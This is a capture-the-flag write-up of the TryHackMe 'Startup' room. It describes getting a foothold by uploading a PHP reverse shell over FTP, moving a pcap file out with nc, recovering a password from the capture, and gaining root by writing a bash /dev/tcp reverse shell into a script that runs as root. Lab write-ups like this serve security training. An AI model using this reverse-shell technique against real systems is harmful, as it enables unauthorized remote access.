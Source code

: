 # Startup

[Startup](https://tryhackme.com/room/startup)

## Solution

- nmap scan 21, 22, 80

### Part 1 - Getting in

We can access the ftp files also from `<ip>/files`. This means that we can add
a file to ftp and then access it from the browser. I created a file
`exploit.php` with PHP PentestMonkey payload using https://www.revshells.com/.
Upload the file using ftp and then access it from the browser. While having nc
listen on the specified port. The answer for the first question is in `recipe.txt`

`FTP and HTTP. What could possibly go wrong?` - Be careful when using both.
Don't allow people to upload stuff to ftp and then access it from http.

### Part 2 - lennie

I ran `ls -lah` and seen an interesting directory that we have access,
`incidents`. It contains a pcapng file. We can use wireshark to analyze it.

To transfer the file (I did not know how to do it so for the rest of the noobs):
On the target machine run nc to listen on some port and read the file:

`nc -l -p 6969 < suspicious.pcapng`

On the host machine

`nc <ip> 6969 > suspicious.pcapng`

This should transfer the file. After the file is transfered you can kill the
host `nc` with Ctrl+C.

Analyzing in Wireshark.

Look at the conversations. An interesting one is 192.169.33.1, this guy
accessed /files/ftp/shell.php, so a revshell most probably, since the server
responded with 200.

The next one that jumped to me is the one to localhost:4444, since there are a
lot of requests, and usually 4444 is used by nc listener. If we inspect that
conversations (follow tcp stream) we can see the literal commands ran by the
hackerman.

Maybe useful information:
- some password attempt `c4ntg3t3n0ughsp1c3`

If we try to ssh into `lennie` with that password, we get access...

### Part 3 - root

In the home directory we have a `scritps` folder. Inside there is a
`planner.sh` script. It writes to a txt file the LIST env var. Then the script
calls another script `/etc/print.sh` that is owned by lennie.

Checking `cat /etc/crontab` there is no cronjob on scripts, however, the
timestamp of the `startup_list.txt` file keeps changing.

So the plan is to write in the print script a reverse shell.

```
#!/bin/bash
/bin/sh -i >& /dev/tcp/<host>/6969 0>&1
```

And on the host run `nc -lvnp 6969`. Finally we are root.
